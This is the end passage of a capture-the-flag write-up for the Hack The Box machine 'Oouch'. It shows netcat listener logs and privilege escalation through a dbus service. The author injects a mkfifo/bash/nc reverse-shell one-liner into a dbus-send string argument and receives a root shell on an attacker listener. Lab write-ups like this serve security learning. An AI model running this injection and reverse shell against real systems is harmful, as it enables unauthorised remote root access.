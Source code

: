 ```bash
qtc@oouch:/tmp$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 40378
whoami
www-data
```
Now we will go ahead and exploit the `dbus` service.

```bash
www-data@aeb4525789d8:/code$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.xx.xx 1234 >/tmp/.0;"
<| /bin/bash -i 2>&1 | nc 10.10.14.2 1234 >/tmp/.0;"
method return time=1596193829.553087 sender=:1.1 -> destination=:1.335 serial=3 reply_serial=2
   string "Carried out :D"
www-data@aeb4525789d8:/code$
```

Now we wait a few moments for the dbus service to send and we should get a connection on our listener
```bash
➜  ~ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.177] 56788
bash: cannot set terminal process group (2551): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# wc root.txt
wc root.txt
 1  1 33 root.txt
root@oouch:/root# whoami && hostname
whoami && hostname
root
oouch
root@oouch:/root#
```

Thanks so much for reading this hope that you enjoyed!
















